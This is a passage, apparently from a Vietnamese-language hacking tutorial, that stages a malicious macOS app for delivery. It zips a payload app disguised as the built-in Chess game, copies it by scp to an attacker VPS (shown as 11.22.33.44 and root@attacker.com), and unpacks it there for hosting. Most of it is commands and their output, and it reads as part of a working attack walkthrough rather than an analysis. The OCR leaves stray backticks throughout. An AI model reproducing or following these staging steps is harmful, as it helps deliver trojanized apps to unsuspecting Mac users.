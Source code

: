 Tiến hành nén file payload lại thành một file ZIP

`~``# zip -ry /tmp/"$app".zip /tmp/"$app".app/`

![](https://anonymousvn.org/wp-content/uploads/2019/05/create-payload.app_.jpg)

Sau khi nén file xong thì mình sẽ tiến hành copy file vừa nén lên VPS được tạo ở trên. ( Giả sử IP của VPS là 11.22.33.44)

`~``# scp -P 22 /tmp/"$app".zip 11.22.33.44:/nfs/monthly`

`root@attacker.com's password:`

`May.zip                                               100% 4007KB 284.6KB``/s`   `00:14`

Lúc này bạn có thể thấy file May.zip trên VPS

`~$` `ls` `-la` `/nfs/monthly/`

`total 4016`

`drwxr-xr-x 2 root root    4096 May 26 22:38 .`

`drwxr-xr-x 3 root root    4096 May 26 22:17 ..`

`-rw-r--r-- 1 root root 4103220 May 26 22:39 May.zip`

Bây giờ truy cập vào folder /nfs/monthly và tiến hành giải nén file May.zip vừa được upload lên

`/nfs/monthly``# unzip May.zip`

`Archive:  May.zip`

`creating: tmp``/May``.app/`

`creating: tmp``/May``.app``/Contents/`

`creating: tmp``/May``.app``/Contents/_CodeSignature/`

`inflating: tmp``/May``.app``/Contents/_CodeSignature/CodeResources`

`creating: tmp``/May``.app``/Contents/MacOS/`

`inflating: tmp``/May``.app``/Contents/MacOS/Chess`

`creating: tmp``/May``.app``/Contents/Resources/`

`...`

`inflating: tmp``/May``.app``/Contents/Resources/ca``.lproj``/InfoPlist``.``strings`

`inflating: tmp``/May``.app``/Contents/Resources/ca``.lproj``/COPYING`

`inflating: tmp``/May``.app``/Contents/Resources/ca``.lproj``/About``.``strings`

`inflating: tmp``/May``.app``/Contents/Resources/ca``.lproj``/Board``.``strings`

`inflating: tmp``/May``.app``/Contents/Resources/Game``.icns`

`inflating: tmp``/May``.app``/Contents/Info``.plist`

`extracting: tmp``/May``.app``/Contents/PkgInfo`

`inflating: tmp``/May``.app``/Contents/version``.plist`
